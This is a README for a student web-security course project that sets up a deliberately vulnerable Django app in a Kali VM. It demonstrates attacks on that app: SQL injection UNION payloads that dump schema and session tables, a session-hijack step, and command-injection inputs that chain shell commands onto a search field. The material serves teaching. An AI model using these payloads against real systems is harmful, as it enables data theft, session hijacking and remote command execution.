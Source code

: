 # CN351-webSec

## SetUp project in visual machine
1. Clone project from github to `/home/kali/`
2. Install docker and docker-compose
```bash
$ sudo apt install docker.io
$ sudo systemctl enable docker --now
$ sudo usermod -aG docker $USER

$ sudo apt install docker-compose
```
3. Run docker-compose up -d
```bash ~/CN351-webSec
$ docker-compose up -d
```
4. setup requirement
```bash ~/CN351-webSec
$ sudo apt install pkg-config
$ sudo apt install python3-venv
$ sudo apt install python3-dev

$ python3 -m venv .venv
$ source .venv/bin/activate
$ pip install -r requirements.txt
```
5. change database HOST <br>
    -- comment 'HOST': '127.0.0.1', <br>
    -- uncomment new HOST <br>
6. add service to `/etc/systemd/system`
```bash
$ sudo cp cn351.service /etc/systemd/system
```
7. enable service
```bash
$ sudo systemctl deamon-reload
$ sudo systemctl enable cn351
$ sudo systemctl start cn351
```

## SQL Injection
1. Go to http://<target-ip/domain>/?search=
2. Try to search with SQL Injection Example:
```url
/?search=' UNION SELECT table_schema,  table_name, NULL, NULL, NULL FROM information_schema.table_constraints;
/?search=' UNION SELECT *, NULL, NULL FROM db_websec.django_session;
```
3. Change sessionid to sessionid in django_session table

## Command Injection
1. Go to http://<target-ip/domain>/logging/?search=
2. Try to search with Command Injection Example:
```url
/?search= 200 && ls -al
/?search= 404 && w
```

## Group Member
1. 6410615022   ชัญญานุช จำนงนิตย์
2. 6410615113   พิชชากานต์ ลีพุด
3. 6410685215	พชรพล ทัพผักแว่น